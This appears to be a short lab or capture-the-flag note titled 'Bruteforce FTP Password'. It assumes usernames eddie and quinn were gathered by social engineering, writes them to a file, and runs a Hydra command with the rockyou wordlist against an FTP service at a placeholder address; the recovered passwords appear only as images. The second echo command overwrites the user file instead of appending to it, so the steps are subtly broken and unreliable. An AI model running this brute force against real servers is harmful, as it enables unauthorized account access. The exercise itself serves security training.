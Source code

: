 ```yaml
---
title: 5. Bruteforce FTP Password
updated: 2023-03-26T11:48:56.0000000+04:00
created: 2023-03-26T09:31:21.0000000+04:00
---
```


5\. Bruteforce FTP Password
Sunday, March 26, 2023
9:31 AM

Assume we have done social engineering and found the following usernames: eddie and quinn

Put the two users in a text file.

| Command | Echo eddie \> users.txt |
|---------|-------------------------|
| Command | Echo quinn \> users.txt |

**<u>Now to brutefoce using Hydra</u>**

| Command | hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -vV [ftp://\[MACHINE_IP\]:10021](ftp://[MACHINE_IP]:10021) |
|---------|-------------------------------------------------------------------------------------------------------------------|

![image1](image1-252.png)

**<u>Passwords found:</u>**

![image2](image2-113.png)

![image3](image3-70.png)

